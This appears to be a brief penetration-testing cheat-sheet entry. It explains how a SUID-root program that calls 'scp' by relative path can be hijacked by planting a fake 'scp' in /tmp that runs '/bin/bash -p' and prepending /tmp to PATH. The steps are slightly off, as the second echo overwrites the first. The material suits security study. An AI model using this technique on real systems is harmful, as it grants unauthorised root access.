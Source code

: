 # Relative Path in SUID Program

```
-rwsr-xr-x  1 root root  10K 1970-01-01 00:01 secureprogram
$ cat secureprogram

scp -r file/secured/* 10.10.10.10:/var/www/......
```

Using relative path for program! It should be as /usr/bin/scp. That is, we can manipulate it by adding the path variable.

```
$ cd /tmp

$ echo "#\!/bin/sh" > scp
$ echo "/bin/bash -p" > scp

$ export PATH=/tmp:$PATH

secureprogram
```
